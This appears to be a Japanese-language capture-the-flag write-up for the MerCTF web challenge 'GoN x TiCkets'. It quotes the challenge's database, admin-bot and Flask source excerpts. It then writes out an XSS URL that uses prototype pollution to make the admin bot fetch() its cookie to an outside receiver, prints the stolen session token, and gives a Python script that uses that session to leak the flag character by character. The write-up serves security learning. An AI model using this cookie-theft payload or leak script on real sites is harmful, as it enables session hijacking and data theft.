





# GoN x TiCkets:MerCTF:490pts
This is the final boss! You should try to solve it if you are a pro  
**URL:** [http://web.merctf.com](http://web.merctf.com/)  
Note: Challenge is working as intended so ganbarimasu The bot is a bit slow sometimes, sorry for that!  

[ToGive.zip](ToGive.zip)  

# Solution
URLとソースが配布される。  
アクセスすると、著作権的にやばいサイトのようだ。  
  
ユーザ登録やログインも実装されている。  
  
  
ログインするとチケットを提出でき、チケットを検索もできるようだ。  
  
チケットを提出すると以下のようなページへ遷移した。  
reCAPTCHAが壊れているようだ。  
  
さらにAdminに報告するページもある。  
  
XSSのようだが、チケットの内容が表示されないため発火しない。  
ソースを見るとapp、bot、dbが含まれていた。  
dbのinit.sqlを見ると以下のようであった。  
```sql
~~~
--
-- Table structure for table `tickets`
--

DROP TABLE IF EXISTS `tickets`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `tickets` (
  `id` varchar(200) NOT NULL,
  `ticket` varchar(1000) NOT NULL,
  `username` varchar(100) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `tickets`
--

LOCK TABLES `tickets` WRITE;
/*!40000 ALTER TABLE `tickets` DISABLE KEYS */;
INSERT INTO `tickets` VALUES 
('1a4c2f59b482ebcae1da00cf3a88cebfd42a924367821ad185ff9bda5xxxxx','Merctf{FAKEFLAG}','mercari');
/*!40000 ALTER TABLE `tickets` ENABLE KEYS */;
UNLOCK TABLES;

--
-- Table structure for table `users`
--

DROP TABLE IF EXISTS `users`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(200) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `users`
--

LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
INSERT INTO `users` VALUES (2,'REDACTED','REDACTED');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
~~~
```
フラグは推測できないidのticketとして含まれている。
usersにREDACTEDユーザがいることからも、おそらくAdmin Botユーザのticketのようだ。  
次にbotのbot.jsを見ると以下のようであった。  
```js
~~~
async function visit(website){
	const browser = await puppeteer.launch(browser_options);
	const page = await browser.newPage();
    	await page.goto('http://'+process.env.DOMAIN+'/login');
	await delay(50);
    // Login
    await page.type('#username', process.env.username);
    await page.type('#password', process.env.password);
    await Promise.all([
             page.click("#submit"),
             page.waitForNavigation({ timeout: 5000, waitUntil: "networkidle2" })
			]);

//    await page.waitForNavigation();

    // Get cookies
    const cookies = await page.cookies();
    // Use cookies in other tab or browser
    const page2 = await browser.newPage()
await page2.bringToFront();

    await page2.setCookie(...cookies);
    await page2.goto(website,{
        waitUntil: 'networkidle0',  
        timeout:60000
    }); // Opens page as logged user
	await delay(10000);
    	await browser.close();

}

app.get("/", (req,res)=>{
	var website=req.query.url ;
	visit(website).then((e)=>{res.send("Visited successfully!")}).catch((err)=>{res.send("Error")}) ;
})
app.listen(80,()=>{console.log("app listening")})
```
Adminとしてログインし、任意のサイトへ遷移する。  
ログイン後に任意のサイトに遷移することからもXS-Leaksなどが怪しい。  
最後にappのapp.pyを見る。  
```python
~~~
@app.route('/search',methods=["POST"])
@csrf.exempt
def search():
    if 'username' not in session:
        return redirect('/login')
    if 'query' not in request.form:
        return jsonify({"Total":len(get_tickets(session['username']))})
    query = str(request.form.get('query'))
    results = (
        ticket for ticket in get_tickets(session['username'])
        if query in ticket
    )
    try:
        res=next(results)
        agent=request.headers["User-Agent"]
        if len(agent)>10:
            res=agent[0:15]+" is allowed to execute the jutsu: "+res
        else:
            res=agent[0:15]+" is not allowed to execute the jutsu: "+res
        return render_template("view.html",ticket="Not Found")
    except StopIteration:
        return render_template("view.html",ticket="Not Found")
~~~
```
テンプレートに使用していない値が渡っており、ミスリードが過ぎる。  
UAを使用している謎の機能が目に付くが悪用法は思いつかない。  
ここでネットを調査していると、[Last Battle](https://mizu.re/post/last_battle)なるWriteUpがヒットする。  
ほぼ同じ問題なようだ(著作権がやばいのも同じ)。  
[Last_Battle.png](images/Last_Battle.png)  
詳しく読むとreCAPTCHAのガジェットを用いたXSSから、先ほどのUAを悪用してフラグをリークできるらしい。  
まずはXSSを以下のように発生させ、Admin Botのcookieを盗む(RequestBin.comを受信に使用)。  
```
http://web.merctf.com/view?id=satoki%26__proto__%5Bsrcdoc%5D%3D%5B%253Cscript%253Efetch%28%2522https%3A%2F%2Fenir5kph2h5be.x.pipedream.net%2F%253Fs%253D%2522%252Bdocument.cookie%29%253C%2Fscript%253E%5D
```
すると以下のリクエストを受信する。  
```
/?s=session=eyJjc3JmX3Rva2VuIjoiY2Y3MzBkZmUxNjQxOTU0N2Y0OTY2OTI3NjJhNWExMzkxMTg3NzMyMCIsInVzZXJuYW1lIjoibWVyY2FyaSJ9.ZYxGBw.pzl-9a35cjNX5em3B6TF2xjCfVk
```
これを用いてAdmin BotのticketをUA経由でリークする。  
以下のwriteup_solver.pyで行う。  
```python
# ref. https://mizu.re/post/last_battle

from requests import get, post
from string import printable
from re import findall

# init
cookies = {
    "session": "eyJjc3JmX3Rva2VuIjoiY2Y3MzBkZmUxNjQxOTU0N2Y0OTY2OTI3NjJhNWExMzkxMTg3NzMyMCIsInVzZXJuYW1lIjoibWVyY2FyaSJ9.ZYxGBw.pzl-9a35cjNX5em3B6TF2xjCfVk"
}
flag = "Merctf{"

while 1:
    # search query
    for letter in printable:
        url = "http://web.merctf.com//search"
        headers = {
            "Connection": "User-Agent"
        }
        data = {
            "query": flag + letter
        }

        r = post(url, cookies=cookies, headers=headers, data=data)
        if r.status_code == 500:
            print("LETTER FOUND!", flag + letter)
            flag += letter
            break
    # no letter found, end of flag
    else:
        exit()
```
実行する。  
```bash
$ python writeup_solver.py
LETTER FOUND! Merctf{T
LETTER FOUND! Merctf{TH
LETTER FOUND! Merctf{THE
LETTER FOUND! Merctf{THE_
LETTER FOUND! Merctf{THE_C
LETTER FOUND! Merctf{THE_CH
LETTER FOUND! Merctf{THE_CHA
LETTER FOUND! Merctf{THE_CHAI
LETTER FOUND! Merctf{THE_CHAIN
LETTER FOUND! Merctf{THE_CHAIN_
LETTER FOUND! Merctf{THE_CHAIN_I
LETTER FOUND! Merctf{THE_CHAIN_IS
LETTER FOUND! Merctf{THE_CHAIN_IS_
LETTER FOUND! Merctf{THE_CHAIN_IS_G
LETTER FOUND! Merctf{THE_CHAIN_IS_G0
LETTER FOUND! Merctf{THE_CHAIN_IS_G00
LETTER FOUND! Merctf{THE_CHAIN_IS_G00D
LETTER FOUND! Merctf{THE_CHAIN_IS_G00D}
```
flagが得られた。  
ソースを読むのがかなり苦痛なOSINT問題だった(泣)。  

## Merctf{THE_CHAIN_IS_G00D}